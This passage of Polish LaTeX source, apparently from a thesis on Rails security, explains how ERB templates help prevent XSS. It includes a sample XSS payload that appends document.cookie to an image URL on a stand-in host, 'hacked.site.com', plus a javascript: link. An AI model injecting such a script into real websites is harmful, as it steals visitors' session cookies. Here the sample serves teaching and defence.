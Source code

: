 Przykładowy atak typu XSS:

\begin{code}
  \begin{lstlisting}[language=HTML, showstringspaces=false]
    <script>
      document.write(
        '<img scr="http:/hacked.site.com/' + document.cookie + '">'
      );
    </script>
    <a href='javascript:alert("Hacked")'>Personal Website</a>
  \end{lstlisting}
\end{code}\\

Dzięki wbudowanemu w Railsy systemowi ERB templates\footnote{System za pomocą, którego kod strony html jest generowany dynamicznie \cite{rails4_way}, \cite{ruby_rails}} mamy doczynienia z dynamicznym tworzeniem kodu HTML, co uniemożliwia większość ataków tego typu. Wszelkiego rodzaju odnośniki i dane na stronie zapisywane są przy użyciu specjalnej notacji:

\begin{code}
  
\end{code}\\

która zostaje przekompilowana do kodu HTML przez serwer i wysłana przeglądarce internetowej.

\begin{code}
  \begin{lstlisting}[language=HTML, showstringspaces=false]
    <a href="/events">My events</a>
    <a href="/">Events</a>
  \end{lstlisting}
\end{code}\\

